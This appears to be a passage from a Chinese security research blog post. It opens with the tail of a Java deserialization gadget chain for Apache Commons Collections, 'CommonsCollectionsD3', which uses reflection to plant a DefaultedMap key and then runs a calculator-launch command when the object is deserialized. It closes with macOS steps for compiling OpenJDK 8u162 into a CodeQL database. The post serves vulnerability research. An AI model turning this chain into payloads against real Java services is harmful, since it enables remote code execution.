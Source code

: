 ```
        HashMap tmp = new HashMap();

        tmp.put("zZ", "diggid");
        DefaultedMap map  = (DefaultedMap) DefaultedMap.decorate(tmp, transformer);
        FastHashMap fasthm = new FastHashMap();
        fasthm.put("yy", "diggid");
        HashMap obj = new HashMap();
        obj.put("b", "b");
        obj.put(fasthm, "1");

        Object[] table = (Object[]) Reflections.getFieldValue(obj, "table");
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[2];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        Reflections.setAccessible(keyField);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map);
        }

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("CCD3.bin"));
        objectOutputStream.writeObject(obj);

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("CCD3.bin"));
        objectInputStream.readObject();
        return obj;
    }

    public static void main(final String[] args) throws Exception {
        new CommonsCollectionsD3().getObject("open -a Calculator");
    }
}
```

## JDK数据库生成

实现了几个项目可以发现，我们查询的内容必须是CodeQL database中的源码，对于一些jar包内的内容是无法查询的，也包括java自带的jar包，所以编译JDK的数据库也必不可少

openjdk源码：https://github.com/openjdk/jdk8u

我选择的是8u162，本机用的是MACOS

安装依赖插件

```
Xcode-select安装：安装命令 xcode-select –install（可以直接在AppStore里面下载）

进行x11链接，在终端输入3个命令中任意一个即可.

ln -s /usr/X11/include/X11 /usr/local/include/X11
ln -s /usr/local/X11/include/X11 /usr/include/X11
ln -s /usr/X11/include/X11 /usr/include/X11 

brew install mercurial
安装hg：brew install hg
安装freetype，安装命令：brew install freetype
安装GC 安装命令： brew install gcc49 据说安装往上的版本会报错
安装ccache提升编译速度 brew install ccache
安装ant 一般mac都会有这个环境，如果没有执行：brew install ant
```